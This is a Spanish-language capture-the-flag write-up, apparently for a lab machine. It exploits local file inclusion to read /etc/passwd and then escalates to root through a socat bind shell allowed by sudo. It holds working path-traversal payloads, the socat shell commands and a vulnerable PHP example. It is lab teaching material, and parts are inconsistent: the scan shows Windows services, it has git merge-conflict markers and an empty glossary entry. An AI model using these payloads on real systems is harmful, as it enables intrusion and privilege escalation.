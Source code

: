 # Machine Athem

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.216.154
``` 
2. El resultado es el siguiente:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

## Analisis de vulnerabilidades

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.59.190
```
- El resultado que me genero son unas URL que no sirven de nada

## Exploiting

- Al ver que la pagina web tiene un articulo de **LFI**, cuando doy click al botn me redirecciona a otra pagina en el cual tiene una descripcion de que es **LFI** pero su URL es esta:
```
http://10.10.59.190/article?name=lfiattack
```
- Entonces observe en la URL que hay un parámetro llamado **name**. Esto indica que el sitio web incluye información de otros lugares, lo que nos abre a un ataque de inclusión de archivos locales

- Para decirlo de otra manera. La página que estamos viendo está realmente vacía; sin embargo, incluye contenido de otra página. En el ejemplo, esa otra página es **rfiattack**, sin embargo, esto dependerá de qué enlace haya hecho clic.

- Las inclusiones de archivos locales son cuando esa entrada no se desinfecta correctamente, lo que nos permite manipular el enlace para abrir otros archivos. Probemos eso ahora con el **/etc/passwd** archivo, que nos dará una lista de cuentas de usuario en la máquina.

Haremos esto cambiando el bit al final de la URL, después del **=**. Sin embargo, no podemos simplemente cambiarlo para que sea **/etc/passwd**, porque eso solo se verá en el directorio actual , que obviamente no contendrá el archivo que estamos buscando. En su lugar, vamos a tener que volver al inicio del sistema de archivos y luego seguir desde allí.

Al final, tendremos una carga útil que se parece a esto **../../../../../../etc/passwd**. Observe las numerosas ocurrencias de **../**, que se utilizan para subir un directorio, lo que finalmente nos lleva de vuelta al directorio raíz del sistema de archivos. El número que use aquí no importa, siempre que haya suficientes para garantizar que volverá al principio.

- Entonces nuestro ataque final es este:
```
http://10.10.59.190/article?name=../../../../../../etc/passwd
```
- El resultado es el contenido de el **/etc/passwd** y hay un usuario y contraseña que es este:
```
falconfeast:rootpassword
```
- Pruebo esas contraseñas en **SSH** y ha funcionado
<<<<<<< HEAD
- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver que archivos se pueden ejecutar como root
=======

- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver archivos se pueden ejecutar
>>>>>>> 7b7cd6683757345985266a0d1304f698979b6643
- El resultado fue este:
```
(root) NOPASSWD: /usr/bin/socat
```
- Entonces decido buscar algun exploit y encontre que primero en la shell de la victima ejecuto esto:
```
$ sudo socat TCP4-LISTEN:1234,reusaddr EXEC:"/bin/sh"
```
- En maquina de Kali debo escuchar ese puerto asì colocando la IP de la maquina victima:
```
$ sudo socat – TCP4:10.10.59.190:1234
```
- Ya con esto soy **root** y puedo sacar la bandera de root

## Glosario

- **RFI:** 

- **LFI:** Un atacante puede usar la Inclusión de Archivos Locales (LFI) para engañar a la aplicación web para que exponga o ejecute archivos en el servidor web. Un ataque LFI puede llevar a la divulgación de información, a la ejecución remota de código, o incluso a Cross-site Scripting (XSS). Típicamente, LFI ocurre cuando una aplicación usa la ruta de un archivo como entrada. Si la aplicación trata esta entrada como confiable, se puede usar un archivo local en la declaración de inclusión.

- La inclusión de archivos locales es muy similar a la inclusión de archivos remotos (RFI). Sin embargo, un atacante que utilice LFI sólo puede incluir archivos locales (no archivos remotos como en el caso de RFI).

- El siguiente es un ejemplo de código PHP que es vulnerable a LFI:
```
* Obtener el nombre de archivo de una entrada GET

Example - http://example.com/?file=filename.php

$file = $_GET[&#39;file&#39;];

* Incluir el archivo de forma insegura

Example - filename.php

include(&#39;directory/&#39; . $file);

```
- En el ejemplo anterior, un atacante podría hacer la siguiente petición. Engaña a la aplicación para que ejecute un script PHP como un shell web que el atacante logró subir al servidor web.
```
http://example.com/?file=../../uploads/evil.php
```
- En este ejemplo, el archivo cargado por el atacante será incluido y ejecutado por el usuario que ejecuta la aplicación web. Eso permitiría a un atacante ejecutar cualquier código malicioso del lado del servidor que desee.

- Este es el peor de los casos. Un atacante no siempre tiene la capacidad de subir un archivo malicioso a la aplicación. Incluso si lo hicieran, no hay garantía de que la aplicación guarde el archivo en el mismo servidor en el que existe la vulnerabilidad LFI. Incluso entonces, el atacante aún necesitaría conocer la ruta del disco del archivo cargado.

- Incluso sin la capacidad de cargar y ejecutar código, una vulnerabilidad de Inclusión de Archivos Locales puede ser peligrosa. Un atacante todavía puede realizar un ataque de Directory Traversal / Path Traversal usando una vulnerabilidad LFI como sigue.
```
http://example.com/?file=../../../../etc/passwd
```
- En el ejemplo anterior, un atacante puede obtener el contenido del archivo /etc/passwd que contiene una lista de usuarios en el servidor. Del mismo modo, un atacante puede aprovechar la vulnerabilidad de Directory Traversal para acceder a los archivos de registro (por ejemplo, access.log o error.log de Apache), el código fuente y otra información confidencial. Esta información puede utilizarse luego para adelantar un ataque.

- **/usr/bin/socat:**

## Investigación

- **exploit /usr/bin/socat:** https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/

- https://gtfobins.github.io/gtfobins/socat/

- **shell TTY Python:** https://netsec.ws/?p=337

## Explotación maquina Inclusion

- https://muirlandoracle.co.uk/2020/03/14/inclusion-write-up/